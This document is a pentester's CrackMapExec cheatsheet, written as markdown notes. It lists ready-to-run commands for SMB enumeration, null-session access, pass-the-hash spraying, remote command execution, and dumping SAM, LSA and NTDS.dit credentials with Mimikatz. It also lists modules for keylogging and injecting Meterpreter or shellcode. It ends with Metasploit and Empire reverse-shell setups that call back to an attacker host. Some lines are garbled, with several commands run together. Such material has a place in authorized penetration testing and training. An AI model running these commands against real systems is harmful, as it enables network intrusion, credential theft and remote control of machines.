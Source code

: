 # Crackmapexec Cheatsheet
Contains the submodules
-   [Impacket](https://github.com/CoreSecurity/impacket)
-   [Pywinrm](https://github.com/diyan/pywinrm)
-   [Pywerview](https://github.com/the-useless-one/pywerview)
-   [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
-   [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
-   [Invoke-Vnc](https://github.com/artkond/Invoke-Vnc)
-   [Mimikittenz](https://github.com/putterpanda/mimikittenz)
-   [NetRipper](https://github.com/NytroRST/NetRipper)
-   [RandomPS-Scripts](https://github.com/xorrior/RandomPS-Scripts)
-   [SessionGopher](https://github.com/fireeye/SessionGopher)
-   [Mimipenguin](https://github.com/huntergregal/mimipenguin)

## Modules

```shell
-M spider_plus # spider share outputs json
```

## Connecting
```bash
crackmapexec smb $domain
crackmapexec smb $IP $IP-2
crackmapexec smb $IP-Range $IP-Range-More-Specific 
crackmapexec smb $Subnetmask
crackmapexec smb targets.txt
```

## Shares
Similar checklist from Ippsec to match the pentester use case of [[SMB-Recon-Cheatsheet]] `smbclient`, to enumerate specific configuration, but also Pentester are more *"finickity"*:

```bash
crackmapexec smb $IP --shares
crackmapexec smb $IP --shares -u ''
crackmapexec smb $IP --shares -u 'Test'
crackmapexec smb $IP --shares -u 'Test' -p ''
```

## Null sessions
```bash
crackmapexec smb $IP -u "" -p ""
```

With Null sessions Windows System that upgraded from 2003, anonymous authenication to grab password policy:
```bash
crackmapexec smb $IP -u '' -p '' --pass-pol
```
Account lockout threshold: 0 -> bruteforcing with [[Password-Attacks]] 

```bash
crackmapexec smb $IP  -u <user> -p <password>
```

## Spraying
#### Pass the hash against a subnet
```bash
# The LMHASH does not actually matter
crackmapexec smb $Subnetmask -u administrator -H 'LMHASH:NTHASH' --local-auth
crackmapexec smb $Subnetmask -u administrator -H 'NTHASH'
```

## Enumeration
#### Users
```bash
crackmapexec smb $IP -u '$foothold-account' -p '$password' --users
crackmapexec smb $IP -u '$foothold-account' -p '$password' --rid-brute
crackmapexec smb $IP -u '$foothold-account' -p '$password' --groups
crackmapexec smb $IP -u '$foothold-account' -p '$password' --local-users
crackmapexec smb $IP -u '$foothold-account' -p '$password' --shares
crackmapexec smb $IP -u '$foothold-account' -p '$password' --pass-pol
```

### Execution & Co
```bash
# CrackMapExec has 3 different command execution methods (in default order) : 
# - wmiexec --> WMI 
# - atexec --> scheduled task 
# - smbexec --> creating and running a service  
# Execute command through cmd.exe (admin privileges required) 
crackmapexec smb $ip -u Administrator -p 'P@ssw0rd' -x 'whoami'  
# Force the smbexec method 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' -x 'net user Administrator /domain' --exec-method smbexec  
# Execute commands through PowerShell (admin privileges required) 
crackmapexec smb $ip -u Administrator -p 'P@ssw0rd' -X 'whoami'`
```


### Getting Credentials
```bash
# Dump local SAM hashes 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' --local-auth --sam

# Enable or disable WDigest to get credentials from the LSA Memory 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' --local-auth --wdigest enable 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' --local-auth --wdigest disable  
# Then you just have to wait the user logoff and logon again 
# But you can force the logoff 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' -x 'quser' 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' -x 'logoff <sessionid>'

# Dump the NTDS.dit from DC using methods from secretsdump.py  
# Uses drsuapi RPC interface create a handle, trigger replication 
# and combined with additional drsuapi calls to convert the resultant  
# linked-lists into readable format 
crackmapexec smb $ip -u UserNAme -p 'PASSWORDHERE' --ntds  
# Uses the Volume Shadow copy Service 
crackmapexec smb $ip -u UserNAme -p 'PASSWORDHERE' --ntds vss  
# Dump the NTDS.dit password history smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-history`
```
 

### Using the database

```bash
# The database automatically store every hosts reaches by CME and all credentials with admin access 
$ cmedb  
# Using workspaces cmedb> workspace create test cmedb> workspace test  
# Access a protocol database and switch back 
cmedb (test)> proto smb 
cmedb (test)> back  
# List stored hosts 
cmedb> hosts  
# View detailed infos for a specific machine (including creds) cmedb> hosts <hostname>  
# Get stored credentials 
cmedb> creds  
# Get credentials access for a specific account 
cmedb> creds <username>  
# Using credentials from the database 
crackmapexec smb $ip -id <credsID>`
```
 

### Modules
```bash
# List available modules 
crackmapexec smb -L  
# Module information
crackmapexec smb -M mimikatz --module-info  
# View module options 
crackmapexec smb -M mimikatz --options  
# Mimikatz module 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' --local-auth -M mimikatz 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' -M mimikatz crackmapexec smb 192.168.215.104 -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug'

[*] Get-ComputerDetails       Enumerates sysinfo 
[*] bloodhound                Executes the BloodHound recon script on the target and retreives the results to the attackers\' machine 
[*] empire_exec               Uses Empire\'s RESTful API to generate a launcher for the specified listener and executes it 
[*] enum_avproducts           Gathers information on all endpoint protection solutions installed on the the remote host(s) via WMI 
[*] enum_chrome               Decrypts saved Chrome passwords using Get-ChromeDump 
[*] enum_dns                  Uses WMI to dump DNS from an AD DNS Server 
[*] get_keystrokes            Logs keys pressed, time and the active window 
[*] get_netdomaincontroller   Enumerates all domain controllers 
[*] get_netrdpsession         Enumerates all active RDP sessions 
[*] get_timedscreenshot       Takes screenshots at a regular interval 
[*] gpp_autologin             Searches the domain controller for registry.xml to find autologon information and returns the username and password. 
[*] gpp_password              Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences. 
[*] invoke_sessiongopher      Digs up saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using SessionGopher 
[*] invoke_vnc                Injects a VNC client in memory 
[*] met_inject                Downloads the Meterpreter stager and injects it into memory 
[*] mimikatz                  Dumps all logon credentials from memory 
[*] mimikatz_enum_chrome      Decrypts saved Chrome passwords using Mimikatz 
[*] mimikatz_enum_vault_creds Decrypts saved credentials in Windows Vault/Credential Manager [*] mimikittenz               Executes Mimikittenz 
[*] multirdp                  Patches terminal services in memory to allow multiple RDP users [*] netripper                 Capture \'s credentials by using API hooking 
[*] pe_inject                 Downloads the specified DLL/EXE and injects it into memory 
[*] rdp                       Enables/Disables RDP 
[*] scuffy                    Creates and dumps an arbitrary .scf file with the icon property containing a UNC path to the declared SMB server against all writeable shares 
[*] shellcode_inject          Downloads the specified raw shellcode and injects it into memory [*] slinky                    Creates windows shortcuts with the icon attribute containing a UNC path to the specified SMB server in all shares with write permissions 
[*] test_connection           Pings a host 
[*] tokens                    Enumerates available tokens [*] uac                       Checks UAC status 
[*] wdigest                   Creates/Deletes the 'UseLogonCredential' registry key enabling WDigest cred dumping on Windows >= 8.1 
[*] web_delivery              Kicks off a Metasploit Payload using the exploit/multi/script/web_delivery module
```
 

### Getting shells

#### Metasploit
```bash
# First, set up a HTTP Reverse Handler 
msf > use exploit/multi/handler  
msf exploit(handler) > set payload windows/meterpreter/reverse_https 
msf exploit(handler) > set LHOST 192.168.10.3 msf exploit(handler) > set exitonsession false msf exploit(handler) > exploit -j  
# Met_Inject module 
crackmapexec smb $ip -u 'Administrator' -p 'PASS' --local-auth -M met_inject -o LHOST=YOURIP LPORT=4444` 
```
`
#### Empire
```bash
# Start RESTful API 
empire --rest --user empireadmin --pass gH25Iv1K68@^  
# First setup an Empire HTTP listener 
(Empire: listeners) > set Name test 
(Empire: listeners) > set Host $ip
(Empire: listeners) > set Port 9090 
(Empire: listeners) > set CertPath data/empire.pem 
(Empire: listeners) > run (Empire: listeners) > list  
# Start RESTful API # The username and password that CME uses to authenticate to Empire's RESTful API  
# Are stored in the cme.conf file located at ~/.cme/cme.conf 
empire --rest --user empireadmin --pass $password 
# Empire Module 
crackmapexec smb $ip -u Administrator -p PASSWORD --local-auth -M empire_exec -o LISTENER=CMETest
```

## References

[ivoidwarranties](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)
[haax9](https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/)
[haax9 -Github](https://github.com/Haax9)
[blackhatethicalhacking](https://www.blackhatethicalhacking.com/tools/crackmapexec/)
[Ippsec Blackfield HTB](https://www.youtube.com/watch?v=IfCysW0Od8w)